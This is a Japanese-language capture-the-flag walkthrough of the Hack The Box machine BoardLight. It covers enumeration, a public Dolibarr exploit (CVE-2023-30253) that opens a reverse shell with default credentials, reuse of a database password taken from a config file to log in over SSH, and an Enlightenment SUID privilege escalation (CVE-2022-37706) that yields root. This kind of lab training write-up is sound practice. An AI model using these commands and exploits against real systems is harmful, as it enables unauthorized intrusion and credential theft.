





# BoardLight
Linux · Easy

# 初期偵察

## nmap
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/BoardLight]
└─$ nmap -sC -sV 10.10.11.11 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-08 22:42 JST
Nmap scan report for 10.10.11.11
Host is up (0.43s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.77 seconds
```

オープンポート

- 22/tcp (SSH) OpenSSH 8.2p1 Ubuntu 4ubuntu0.11
- 80/tcp (HTTP)  Apache httpd 2.4.41 (Ubuntu)


## 名前解決
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/BoardLight]
└─$ echo "10.10.11.11 boardlight.htb" | sudo tee -a /etc/hosts
[sudo] password for kali: 
10.10.11.11 boardlight.htb
```

http://10.10.11.11にアクセスする




/do.php




## ディレクトリ探索
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/BoardLight]
└─$ gobuster dir -u http://10.10.11.11 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.11
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/css                  (Status: 301) [Size: 308] [--> http://10.10.11.11/css/]
/images               (Status: 301) [Size: 311] [--> http://10.10.11.11/images/]
/index.php            (Status: 200) [Size: 15949]
/js                   (Status: 301) [Size: 307] [--> http://10.10.11.11/js/]
/server-status        (Status: 403) [Size: 276]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

## サブドメイン探索

```
┌──(kali㉿kali)-[~/htb/Retired_Machines/BoardLight]
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://boardlight.htb -H "Host: FUZZ.boardlight.htb" -fs 15949           

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://boardlight.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.boardlight.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 15949
________________________________________________

:: Progress: [4989/4989] :: Job [1/1] :: 60 req/sec :: Duration: [0:00:41] :: Errors: 0 ::
                                                                                                                         
┌──(kali㉿kali)-[~/htb/Retired_Machines/BoardLight]
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://boardlight.htb -H "Host: FUZZ.boardlight.htb" -fs 15949 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://boardlight.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.boardlight.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 15949
________________________________________________

* FUZZ: crm
```


## 名前解決追加
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/BoardLight]
└─$ echo "10.10.11.11 crm.board.htb" | sudo tee -a /etc/hosts
[sudo] password for kali: 
10.10.11.11 crm.board.htb
```

アクセスするとログイン画面が出てくる




Dolibarr 17.0.0

admin/adminで入れた





## CVE-2023-30253

Dolibarr 17.0.0で検索するとCVE-2023-30253が出てくる

>17.0.1 より前の Dolibarr では、大文字の操作 (挿入されたデータ内の <?php ではなく <?PHP) により、認証されたユーザーによるリモート コード実行が許可される
https://www.tenable.com/cve/CVE-2023-30253


```
┌──(kali㉿kali)-[~/htb/Retired_Machines/BoardLight]
└─$ git clone https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253.git
Cloning into 'Exploit-for-Dolibarr-17.0.0-CVE-2023-30253'...
remote: Enumerating objects: 18, done.
remote: Counting objects: 100% (18/18), done.
remote: Compressing objects: 100% (16/16), done.
remote: Total 18 (delta 3), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (18/18), 9.17 KiB | 1.53 MiB/s, done.
Resolving deltas: 100% (3/3), done.
```


```
┌──(kali㉿kali)-[~/htb/Retired_Machines/BoardLight/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253]
└─$ python3 exploit.py -h         
usage: python3 exploit.py <TARGET_HOSTNAME> <USERNAME> <PASSWORD> <LHOST> <LPORT>
example: python3 exploit.py http://example.com login password 127.0.0.1 9001

---[Reverse Shell Exploit for Dolibarr <= 17.0.0 (CVE-2023-30253)]---

positional arguments:
  hostname    Target hostname
  username    Username of Dolibarr ERP/CRM
  password    Password of Dolibarr ERP/CRM
  lhost       Listening host for reverse shell
  lport       Listening port for reverse shell

options:
  -h, --help  show this help message and exit
```

## リバースシェル確立

```
┌──(kali㉿kali)-[~/htb/Retired_Machines/BoardLight/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253]
└─$ python3 exploit.py http://crm.board.htb admin admin 10.xx.xx.xx 9001 
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```
待ち受けてる方
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9001  
listening on [any] 9001 ...
connect to [10.xx.xx.xx] from (UNKNOWN) [10.10.11.11] 60940
bash: cannot set terminal process group (857): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ ls
ls
index.php
styles.css.php
```

SUID (Set User ID) バイナリを検索する

```
www-data@boardlight:/tmp$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/sbin/pppd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/sudo
/usr/bin/su
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/vmware-user-suid-wrapper
www-data@boardlight:/tmp$ ls -la /etc/cron* /var/spool/cron/crontabs 2>/dev/null
<-la /etc/cron* /var/spool/cron/crontabs 2>/dev/null
-rw-r--r-- 1 root root    1042 Feb 13  2020 /etc/crontab

/etc/cron.d:
total 36
drwxr-xr-x   2 root root  4096 Sep 17  2023 .
drwxr-xr-x 128 root root 12288 May 17  2024 ..
-rw-r--r--   1 root root   102 Feb 13  2020 .placeholder
-rw-r--r--   1 root root   285 Jul 16  2019 anacron
-rw-r--r--   1 root root   201 Feb 13  2020 e2scrub_all
-rw-r--r--   1 root root   712 Mar 27  2020 php
-rw-r--r--   1 root root   191 Sep 17  2023 popularity-contest

/etc/cron.daily:
total 68
drwxr-xr-x   2 root root  4096 May 13  2024 .
drwxr-xr-x 128 root root 12288 May 17  2024 ..
-rw-r--r--   1 root root   102 Feb 13  2020 .placeholder
-rwxr-xr-x   1 root root   311 Jul 16  2019 0anacron
-rwxr-xr-x   1 root root   539 Feb 23  2021 apache2
-rwxr-xr-x   1 root root   376 Dec  4  2019 apport
-rwxr-xr-x   1 root root  1478 Apr  9  2020 apt-compat
-rwxr-xr-x   1 root root   355 Dec 29  2017 bsdmainutils
-rwxr-xr-x   1 root root   384 Nov 19  2019 cracklib-runtime
-rwxr-xr-x   1 root root  1187 Sep  5  2019 dpkg
-rwxr-xr-x   1 root root   377 Jan 21  2019 logrotate
-rwxr-xr-x   1 root root  1123 Feb 25  2020 man-db
-rwxr-xr-x   1 root root  4574 Jul 18  2019 popularity-contest
-rwxr-xr-x   1 root root   214 May 14  2021 update-notifier-common

/etc/cron.hourly:
total 20
drwxr-xr-x   2 root root  4096 Aug 19  2021 .
drwxr-xr-x 128 root root 12288 May 17  2024 ..
-rw-r--r--   1 root root   102 Feb 13  2020 .placeholder

/etc/cron.monthly:
total 24
drwxr-xr-x   2 root root  4096 Aug 19  2021 .
drwxr-xr-x 128 root root 12288 May 17  2024 ..
-rw-r--r--   1 root root   102 Feb 13  2020 .placeholder
-rwxr-xr-x   1 root root   313 Jul 16  2019 0anacron

/etc/cron.weekly:
total 32
drwxr-xr-x   2 root root  4096 May 13  2024 .
drwxr-xr-x 128 root root 12288 May 17  2024 ..
-rw-r--r--   1 root root   102 Feb 13  2020 .placeholder
-rwxr-xr-x   1 root root   312 Jul 16  2019 0anacron
-rwxr-xr-x   1 root root   813 Feb 25  2020 man-db
-rwxr-xr-x   1 root root   403 Aug  5  2021 update-notifier-common
```

`/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys`
Enlightenmentデスクトップ環境の一部であり、SUIDビットが設定されていることは異常です。通常、このようなファイルにSUIDビットが設定されていると、攻撃者が権限昇格に利用する可能性があります




```
larissa@boardlight:/tmp$ dpkg -l | grep enlightenment
hi  enlightenment                          0.23.1-4                            amd64        X11 window manager based on EFL
hi  enlightenment-data                     0.23.1-4                            all          X11 window manager based on EFL - run time data files
```
version of Enlightenment is installed on BoardLight
→0.23.1

## CVE-2022-37706


```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

//$dolibarr_main_demo='autologin,autopass';
// Security settings
$dolibarr_main_prod='0';
$dolibarr_main_force_https='0';
$dolibarr_main_restrict_os_commands='mysqldump, mysql, pg_dump, pgrestore';
$dolibarr_nocsrfcheck='0';
$dolibarr_main_instance_unique_id='ef9a8f59524328e3c36894a9ff0562b5';
$dolibarr_mailing_limit_sendbyweb='0';
$dolibarr_mailing_limit_sendbycli='0';

//$dolibarr_lib_FPDF_PATH='';
//$dolibarr_lib_TCPDF_PATH='';
//$dolibarr_lib_FPDI_PATH='';
//$dolibarr_lib_TCPDI_PATH='';
//$dolibarr_lib_GEOIP_PATH='';
//$dolibarr_lib_NUSOAP_PATH='';
//$dolibarr_lib_ODTPHP_PATH='';
//$dolibarr_lib_ODTPHP_PATHTOPCLZIP='';
//$dolibarr_js_CKEDITOR='';
//$dolibarr_js_JQUERY='';
//$dolibarr_js_JQUERY_UI='';

//$dolibarr_font_DOL_DEFAULT_TTF='';
//$dolibarr_font_DOL_DEFAULT_TTF_BOLD='';
$dolibarr_main_distrib='standard';
```

## SSHログイン

larissa@boardlight:/tmp$ ls -la
total 1248
drwxrwxrwt 18 root     root        4096 Apr  8 09:09  .
drwxr-xr-x 19 root     root        4096 May 17  2024  ..
drwxrwxr-x  3 larissa  larissa     4096 Apr  8 08:25 ';'

`larissa`を使う


$dolibarr_main_db_pass='serverfun2$2023!!';

`larissa`:`serverfun2$2023!!`

```
┌──(kali㉿kali)-[~/htb/Retired_Machines/BoardLight/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253]
└─$ ssh larissa@10.10.11.11 
Load key "/home/kali/.ssh/id_rsa": error in libcrypto
larissa@10.10.11.11's password: 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

larissa@boardlight:~$ id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)
larissa@boardlight:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
larissa@boardlight:~$ cat user.txt 
9fc*****************************
```

## user.txt 
`9fc*****************************`


## 権限昇格

https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit
これを参考にする

```
┌──(kali㉿kali)-[~/htb/Retired_Machines/BoardLight/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253]
└─$ git clone https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit.git
Cloning into 'CVE-2022-37706-LPE-exploit'...
remote: Enumerating objects: 92, done.
remote: Counting objects: 100% (92/92), done.
remote: Compressing objects: 100% (92/92), done.
remote: Total 92 (delta 32), reused 14 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (92/92), 498.76 KiB | 1.96 MiB/s, done.
Resolving deltas: 100% (32/32), done.
```


送る
```
┌──(kali㉿kali)-[~/…/Retired_Machines/BoardLight/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/CVE-2022-37706-LPE-exploit]
└─$ python3 -m http.server 8080                                             
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.11.11 - - [09/Apr/2025 00:25:13] "GET /exploit.sh HTTP/1.1" 200 -
```


exploit.sh受信側

```
larissa@boardlight:/tmp$ wget http://10.xx.xx.xx:8080/exploit.sh
--2025-04-08 08:25:12--  http://10.xx.xx.xx:8080/exploit.sh
Connecting to 10.10.14.32:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 709 [text/x-sh]
Saving to: ‘exploit.sh’

exploit.sh                     100%[=================================================>]     709  --.-KB/s    in 0s      

2025-04-08 08:25:14 (2.90 MB/s) - ‘exploit.sh’ saved [709/709]

larissa@boardlight:/tmp$ ls
exploit             systemd-private-11c2c412ce364c12a493ea5e87432493-apache2.service-78HUPi
exploit.sh          systemd-private-11c2c412ce364c12a493ea5e87432493-systemd-logind.service-EN5Zyf
fakebin             systemd-private-11c2c412ce364c12a493ea5e87432493-systemd-resolved.service-u5W7Ai
linpeas_output.txt  systemd-private-11c2c412ce364c12a493ea5e87432493-systemd-timesyncd.service-bgSL4e
linpeas.sh          VMwareDnD
rootbash            vmware-root_626-2697073973
```

exploit.sh実行する
```
larissa@boardlight:/tmp$ bash exploit.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
# ls
';'                   net
 VMwareDnD            rootbash
 exploit              systemd-private-11c2c412ce364c12a493ea5e87432493-apache2.service-78HUPi
 exploit.sh           systemd-private-11c2c412ce364c12a493ea5e87432493-systemd-logind.service-EN5Zyf
 fakebin              systemd-private-11c2c412ce364c12a493ea5e87432493-systemd-resolved.service-u5W7Ai
 linpeas.sh           systemd-private-11c2c412ce364c12a493ea5e87432493-systemd-timesyncd.service-bgSL4e
 linpeas_output.txt   vmware-root_626-2697073973
# cat /root/root.txt
568*****************************
# 
```

## root.txt
`568*****************************`